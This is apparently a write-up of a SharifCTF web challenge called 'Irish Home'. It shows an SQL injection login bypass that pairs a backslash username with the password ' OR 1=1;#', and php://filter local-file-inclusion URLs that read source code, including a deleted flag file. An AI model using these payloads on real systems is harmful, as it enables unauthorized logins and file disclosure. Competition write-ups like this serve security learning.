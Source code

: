 ## Irish Home (Web-200)

### Description
Login, and recover the deleted flag. 

### Solution
This challenge is solved by me and @nikhil96sher(Nikhil Sheorem)
The site (http://ctf.sharif.edu:8082/login.php) is vulnearable to sql injection.
But they have applied filters on the `"`.
So I used username = `\` and password = ` OR 1=1;#` and I was able to login as **admin**.
Now I was kinda stuck unless @nikhil96sher pointed out that it is vulnearable to LFI as well.
Using `http://ctf.sharif.edu:8082/pages/show.php?page=php://filter/read=convert.base64-encode/resource=../delete`, we got 
```
<?php
require_once('header.php');

/*
if(isset($_GET['page'])) {
    $fname = $_GET['page'] . ".php";
    $fpath = "pages/$fname";
    if(file_exists($fpath)) {
        rename($fpath, "deleted_3d5d9c1910e7c7/$fname");
    }
}
*/

?>
<div style="text-align: center;">
<h3 style="color: red;">Site is under maintenance 'til de end av dis f$#!*^% SharifCTF.</h3><br/>
<h4><b>Al' destructive acshuns are disabled!</b></h4>
</div>
<?php
require_once('footer.php');
?>

```

After that using `http://ctf.sharif.edu:8082/pages/show.php?page=php://filter/read=convert.base64-encode/resource=../deleted_3d5d9c1910e7c7/flag`, we got 
```
$username = 'Cuchulainn';
$password = ;    // Oi don't save me bleedin password in a shithole loike dis.

$salt = 'd34340968a99292fb5665e';

$tmp = $username . $password . $salt;
$tmp = md5($tmp);

$flag = "SharifCTF{" . $tmp . "}";
echo $flag;

```

Now using the [script](./web-200.py), we were able to brute-force password.
So this was the challenge which had all fruits in the basket, we had sqli, LFI, path transversal, blind sqli. 


